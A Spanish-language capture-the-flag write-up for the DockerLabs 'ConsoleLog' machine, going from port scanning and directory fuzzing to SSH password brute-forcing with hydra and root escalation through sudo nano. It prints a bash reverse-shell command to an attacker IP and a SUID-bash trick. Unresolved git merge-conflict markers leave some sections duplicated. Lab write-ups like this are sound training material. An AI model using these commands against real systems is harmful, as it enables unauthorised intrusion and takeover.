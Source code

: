 # Console Log

En esta lectura se documentara el paso a paso para resolver la maquina ConsoleLog de la plataforma DockerLabs

![image.png](Console%20Log/image.png)

**Descargamos y desplegamos :** 

![image.png](Console%20Log/image%201.png)

Con ping comprobamos que la misma esta activa, el TTL de 64 nos indica que es una maquina Linux : 

![image.png](Console%20Log/image%202.png)

## Enumeración

Realizamos un escaneo con Nmap utilizando un Syn Scan, el cual es más rápido y discreto en entornos reales debido a que no completa el saludo de tres vías. Esto nos permite detectar puertos abiertos de manera eficiente sin establecer conexiones completas, reduciendo así la probabilidad de ser detectados.

```jsx
nmap -sS -p- --open -Pn -n --min-rate=5000 172.17.0.2
```

Encontramos abiertos los siguientes puertos : 

![image.png](Console%20Log/image%203.png)

Realizamos un nuevo escaneo con Nmap, esta vez enfocado únicamente en los puertos abiertos y utilizando el parámetro `-A`. Este parámetro ejecuta un conjunto de scripts de Nmap que permite identificar las versiones de los servicios y del sistema operativo en ejecución."

<<<<<<< HEAD:DockerLabs/ConsoleLog/Console Log.md
```bash
nmap -A -p 80,3000,5000 -Pn -n 172.17.0.2
```

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%204.png)
=======
![image.png](Console%20Log/image%204.png)
>>>>>>> d081d6e81c78923b66e2fddcb1645c5d39142d88:DockerLabs/ConsoleLog/Console Log .md

Notamos que los primeros son dos paginas web http y el ultimo es ssh pero en un puerto no estándar

Consultamos a la herramienta **`whatweb`** para ver con que tecnologías esta diseñada la web.

<<<<<<< HEAD:DockerLabs/ConsoleLog/Console Log.md
```bash
whatweb http::172.17.0.2
```

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%205.png)
=======
![image.png](Console%20Log/image%205.png)
>>>>>>> d081d6e81c78923b66e2fddcb1645c5d39142d88:DockerLabs/ConsoleLog/Console Log .md

Vamos a ingresar al puerto 80 haber que encontramos : 

![image.png](Console%20Log/image%206.png)

## Explotación

Al ver el código fuente de este sitio, descubrimos un archivo “js” con un token, lo que podría tratarse de una vulnerabilidad a mitigar o informar si esto fuese un caso real al tratarse de data sensible expuesta.

![image.png](Console%20Log/image%207.png)

Al revisar este archivo vemos la siguiente información que nos podría llegar a ser útil, por lo que la guardaremos.

![image.png](Console%20Log/image%208.png)

Ingresamos al segundo puerto abierto para visualizar su contenido pero de momento no es posible acceder:

![image.png](Console%20Log/image%209.png)

Al hacer fuzzing encontramos el directorio backend con archivos útiles. Para esto use la herramienta `gobuster`.

**Gobuster** es una herramienta de fuerza bruta utilizada para descubrir directorios, archivos, subdominios, y hosts virtuales ocultos en un servidor web. Funciona utilizando una lista de palabras (wordlist) para realizar solicitudes repetidas al servidor, lo que permite identificar recursos no visibles o no indexados.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![image.png](Console%20Log/image%2010.png)

De estos directorios encontrados con ese diccionario vamos a revisar `/backend` que parece el mas interesante.

![image.png](Console%20Log/image%2011.png)

Encontramos este server.js que me da mucha curiosidad…

![image.png](Console%20Log/image%2012.png)

esa contraseña en texto plano ahí ubicada es muy rara, tenemos un puerto con ssh abierto por lo que vamos a intentar averiguar con hydra si algún usuario la esta utilizando :

<<<<<<< HEAD:DockerLabs/ConsoleLog/Console Log.md
```bash
hydra -L /usr/share/wordlists/rockyou.txt -p password ssh://172.17.0.2:5000 -t 64
```

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2013.png)
=======
![image.png](Console%20Log/image%2013.png)
>>>>>>> d081d6e81c78923b66e2fddcb1645c5d39142d88:DockerLabs/ConsoleLog/Console Log .md

Encontramos al usuario lovely con la contraseña conseguida porque estaba expuesta en texto plano, por lo que nos conectamos mediante ssh al puerto indicado en el escaneo.

```bash
ssh lovely@172.17.0.2 -p 5000
```

![image.png](Console%20Log/image%2014.png)

## Post - explotación / Escalada de privilegios

Realizamos la escalada privilegios, vamos a enumerar los permisos de sudo que tiene el usuario actual, esto lo hacemos con `sudo -l`
El comando `sudo -l` se utiliza para listar los privilegios de `sudo` que tiene el usuario actual.

![image.png](Console%20Log/image%2015.png)

Descubrimos que tiene permisos de sudo para nano por lo que vamos a buscar el en sitio “[https://gtfobins.github.io/](https://gtfobins.github.io/)” si hay una manera de escalar a root con nano.

![image.png](Console%20Log/image%2016.png)

Encontramos esta manera que al ejecutarla nos permite ejecutar comandos como root pero de una manera un poco incomoda…

![image.png](Console%20Log/image%2017.png)

Una vez obtenida de esta manera una consola inestable de root tenemos dos opciones: 

La primera cambiarle los permiso a la bash con **`chmod u+s /bin/bash`**para que
 establecer el bit SUID (Set User ID) en el archivo `/bin/bash`. Esto sirve para que ue cuando cualquier usuario ejecuta el archivo `/bin/bash`, el proceso que se crea tiene los privilegios del propietario del archivo, que en este caso es típicamente el usuario root. Así, cualquier usuario que ejecute `/bin/bash` obtendría una shell con privilegios de root.

![image.png](Console%20Log/image%2018.png)

![image.png](Console%20Log/image%2019.png)

La segunda es mandar una **shell** reversa a un puerto de nuestra maquina atacante y ponernos en escucha con netcat a dicho puerto.

```bash
bash -c 'bash -i >& /dev/tcp/192.168.0.203/444 0>&1'
```

![image.png](Console%20Log/image%2020.png)

Desde nuestra maquina atacante usamos

```bash
nc -nlvp 444
```

**Esta es otra alternativa  pero se considera mas estable la primera.**

![image.png](Console%20Log/image%2021.png)

**PWNED**!!!

<aside>
💡 Muchas gracias por leer, este es mi primer WriteUp para la plataforma DockerLabs, estaré subiendo mas en estos días, mientras busco seguir aprendiendo.

</aside>

**Saludos!!!**
